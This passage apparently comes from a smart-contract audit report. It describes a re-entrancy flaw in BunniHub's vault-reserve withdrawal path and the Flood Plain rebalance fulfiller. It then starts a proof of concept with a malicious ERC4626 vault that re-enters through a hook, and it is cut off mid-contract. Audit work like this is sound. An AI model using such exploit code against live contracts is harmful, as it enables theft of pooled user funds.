 ```solidity
            s.reserve1[poolId] = state.reserve1 - reserveChange;
        }

        // withdraw raw tokens
        env.poolManager.unlock(
            abi.encode(
                BunniHub.UnlockCallbackType.WITHDRAW,
                abi.encode(params.recipient, params.poolKey, rawAmount0, rawAmount1)
            )
        );

        ...
    }
```

This vector is notably more straightforward as the pulled reserve tokens are transferred immediately to the caller:

```solidity
function _withdrawVaultReserve(uint256 amount, Currency currency, ERC4626 vault, address user, WETH weth)
    internal
    returns (uint256 reserveChange)
{
    if (currency.isAddressZero()) {
        // withdraw WETH from vault to address(this)
        reserveChange = vault.withdraw(amount, address(this), address(this));

        // burn WETH for ETH
        weth.withdraw(amount);

        // transfer ETH to user
        user.safeTransferETH(amount);
    } else {
        // normal ERC20
        reserveChange = vault.withdraw(amount, user, address(this));
    }
}
```

A slightly less impactful but still critical alternative would be for a malicious fulfiller of a Flood Plain rebalance order to re-enter during the `IFulfiller::sourceConsideration` call. This assumes that the attacker holds the top bid and is set as the am-AMM manager. It is equivalent to the Pashov Group finding C-03 and remains possible despite the implementation of the recommended mitigation due to the re-entrancy guard override described above.

**Proof of Concept:** To run the following PoCs:
* Add the following malicious vault implementation inside `test/mocks/ERC4626Mock.sol`:

```solidity
interface MaliciousHook {
    function continueAttackFromMaliciousVault() external;
}

contract MaliciousERC4626 is ERC4626 {
    address internal immutable _asset;
    MaliciousHook internal immutable maliciousHook;
    bool internal attackStarted;

    constructor(IERC20 asset_, address _maliciousHook) {
        _asset = address(asset_);
        maliciousHook = MaliciousHook(_maliciousHook);
    }

    function asset() public view override returns (address) {
        return _asset;
```
